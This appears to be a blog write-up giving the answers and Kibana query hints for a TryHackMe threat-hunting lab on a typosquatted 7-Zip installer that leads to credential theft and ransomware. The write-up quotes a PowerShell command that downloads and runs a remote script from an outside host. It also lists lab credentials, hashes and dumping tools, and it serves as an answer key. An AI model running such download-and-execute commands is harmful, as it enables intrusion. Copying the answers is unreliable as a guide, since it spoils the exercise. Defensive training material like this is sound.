```yaml
---
layout: post
title: "TryHackMe/Medium/Hunt Me II: Typo Squatters"
abbrlink: 13163d7d74b24672ac15ad82769ce666
tags:
  - ransomware
  - kibana
  - soc level 2
  - blue team
  - elasticsearch
categories:
  - Labs
  - TryHackMe
  - 2. Medium
  - "Hunt Me II: Typo Squatters"
date: 1703273918122
updated: 1703273930710
---
```


<https://tryhackme.com/room/typosquatters>

# Scenario

Just working on a typical day as a software engineer, Perry received an encrypted 7z archive from his boss containing a snippet of a source code that must be completed within the day. Realising that his current workstation does not have an application that can unpack the file, he spins up his browser and starts to search for software that can aid in accessing the file. Without validating the resource, Perry immediately clicks the first search engine result and installs the application.

![867908b32551bf4d220294d1ad919969.png](/resources/91a9f3ec56c0430f89f92ed3d32b2be1.png)

Last **September 26, 2023**, one of the security analysts observed something unusual on the workstation owned by Perry based on the generated endpoint and network logs. Given this, your SOC lead has assigned you to conduct an in-depth investigation on this workstation and assess the impact of the potential compromise.

***

## Q & A

1. What is the URL of the malicious software that was downloaded by the victim user?
   *`http://www.7zipp.org/a/7z2301-x64.msi`*
   > Search for `*zipp.org*` then sort from oldest to new and check the first entry.

2. What is the IP address of the domain hosting the malware?
   *`206.189.34.218`*
   > Search for `*zipp.org*` then add the `dns.resolved_ip` column.

3. What is the PID of the process that executed the malicious software?
   *2532*
   > Search for `*7z2301-x64.msi* AND process.command_line: "*msiexec.exe*"` and check the `process.pid` field.

4. Following the execution chain of the malicious payload, another remote file was downloaded and executed. What is the full command line value of this suspicious activity?
   *`powershell.exe iex(iwr http://www.7zipp.org/a/7z.ps1 -useb)`*
   > From Question 3's search, add the `process.command_line` column then click "View surrounding documents" and keep adding new entries until the command to download the remote file appears in the `process.command_line` column.

5. The newly downloaded script also installed the legitimate version of the application. What is the full file path of the legitimate installer?
   *`C:\Windows\Temp\7zlegit.exe`*
   > From the Question 4's search results, keep adding new entries until the legitimate application appears in the `process.command_line` column.

6. What is the name of the service that was installed?
   *7zService*
   > Search for `"*sc.exe* create"` and check the `process.command_line` field.

7. The attacker was able to establish a C2 connection after starting the implanted service. What is the username of the account that executed the service?
   *SYSTEM*
   > Search for `"*start 7zService*"` then expand the oldest entry and check the `winlog.user.name` field

8. After dumping LSASS data, the attacker attempted to parse the data to harvest the credentials. What is the name of the tool used by the attacker in this activity?
   *Invoke-PowerExtract*
   > Search for `*LSASS*` then check the `message` field for the entry that is running the tool to parse the data.

9. What is the credential pair that the attacker leveraged after the credential dumping activity? (format: username:hash)
   *`james.cromwell:B852A0B8BD4E00564128E0A5EA2BC4CF`*
   > Search for `*mimikatz.exe*` then add the `process.command_line` column and check the oldest entries.

10. After gaining access to the new account, the attacker attempted to reset the credentials of another user. What is the new password set to this target account?
    *`pwn3dpw!!!`*
    > Search for `process.command_line: "net users"` and check the oldest entry.

11. What is the name of the workstation where the new account was used?
    *WKSTN-02*
    > Search for `user.name: anna.jones AND NOT agent.name: "WKSTN-03"` and check the `agent.name` field.

12. After gaining access to the new workstation, a new set of credentials was discovered. What is the username, including its domain, and password of this new account?
    *`SSF\itadmin:NoO6@39Sk0!`*
    > Search for `winlog.event_id: 1 AND user.name:anna.jones` then add the `process.command_line` column and look for `-C $username='SSF\itadmin'; $password='NoO6@39Sk0!'`

13. Aside from mimikatz, what is the name of the PowerShell script used to dump the hash of the domain admin?
    *Invoke-SharpKatz.ps1*
    > Search for `winlog.event_id: 1 AND user.name:anna.jones` then add the `process.command_line` column and look for `Invoke-SharpKatz.ps1`.

14. What is the AES256 hash of the domain admin based on the credential dumping output?
    *f28a16b8d3f5163cb7a7f7ed2c8f2cf0419f0b0c2e28c15f831d050f5edaa534*
    > Search for `"*Invoke-SharpKatz*" AND message:"*hall*"` then check the `message` field.

15. After gaining domain admin access, the attacker popped ransomware on workstations. How many files were encrypted on all workstations?
    *46*
    > First search for `user.name: damian.hall` then use Visualize on `process.name` to find `bomb.exe`. Then search for `bomb.exe AND winlog.event_id:11` take note of the total results and then search for `bomb.exe AND winlog.event_id:11 AND NOT *.777zzz` and deduct the total from this result and the last result.

